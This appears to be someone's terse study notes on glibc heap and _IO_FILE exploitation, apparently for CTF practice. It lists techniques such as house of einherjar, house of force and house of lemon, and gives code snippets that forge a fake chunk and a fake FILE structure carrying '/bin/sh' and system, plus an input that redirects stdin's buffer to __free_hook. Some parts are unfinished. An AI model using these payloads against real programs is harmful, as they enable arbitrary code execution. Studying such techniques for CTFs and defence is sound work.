 # bins

`large bin`: sort from large to small

## malloc

`(tcache ->) fast -> small -> unsorted -> large -> small/large again to find best fit -> top -> enlarge`

## free

`fastbin -> chunk from mmap(munmap) -> if prev/next free? consolidate and put to unsorted bin`

## smallbin attack/house of lore

`victim->bk = fake chunk`

`fake chunk->fd = victim`

## largebin attack

next size

## house of force

`XXX - top_chunk - 0x10`, prev size of top chunk will be on XXX

`XXX - top_chunk - 0x20`, next malloc will be on XXX

if XXX is 0x10 aligned

## house of einherjar

make a fake chunk

```c
fake_chunk[0] = 0; 
fake_chunk[1] = XXXXXX | 1; // size such that next chunk is victim chunk
fake_chunk[2] = (size_t) fake_chunk; // fwd
fake_chunk[3] = (size_t) fake_chunk; // bck
fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
```

overflow a using chunk, set `prev_inuse` in `size` field to 0, and set its `prev_size` such that the `prev_chunk` becomes our fake chunk

set the `size` of fake chunk such that the next chunk is the victim chunk

`size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk); `

## malloc_hook

`0x50` one gadget can be satisfied by `malloc_printer`

# _IO_FILE

## fread/fwrite

will call `_io_xsgetn`

## fopen

will call `_IO_new_fopen`

## fclose

//call `_IO_finish`

### exploitation

todo: read source code of `_IO_new_fclose`

```python
#32 bits
fake_file = "/bin/sh\x00" + "\x00" * 0x40 + p32(fake_lock_addr)
fake_file = fake_file.ljust(0x94, "\x00")
fake_file += p32(fake_vtable_addr - 0x44)

#64 bits
fake_file = "/bin/sh\x00" + '\x00' * 0x8
fake_file += p64(system) + '\x00' * 0x70
# the system can also be placed in other memory
fake_file += p64(fake_lock_addr)
fake_file = fake_file.ljust(0xd8, '\x00')
fake_file += p64(buf_addr + 0x10 - 0x88) # fake_vtable_addr
```

`fake_lock_addr` must point to a memory containing all zero

## printf/puts

## house of lemon

`global_max_fast`

`free` large-size bin, can put the chunk into `stdout`, which locates just after `main_arena`

formula `malloc(0x10 + 0x10 * (offset_to_fastbin/8))`

## libc write 0 byte

write `_IO_buf_base` of `stdin`

so that we can control the structure of `stdin`, specifically, memory after `_IO_write_base`, if there is a `scanf`

then rewrite `_IO_buf_base` again by

```python
("0" * 0x16 + "1" + "\n" + p64(libc_addr + e.symbols["__free_hook"]) + p64(libc_addr + e.symbols["__free_hook"] + 8)) 
#"00001" for things like "%d" to let it give some value, 1 specifically
#rewrite _IO_buf_base again to __free_hook, and then we can write __free_hook in next scanf
#however, not clear to to write __free_hook specifically...
#there are some additional steps required...
#can do it by trial and error...
```

`IO_read_ptr > IO_read_end` 

## fread/fwrite

arbitrary memory read/write, need to modify some bits in `__IO_FILE` firstly

use house of lemon to rewrite data in heap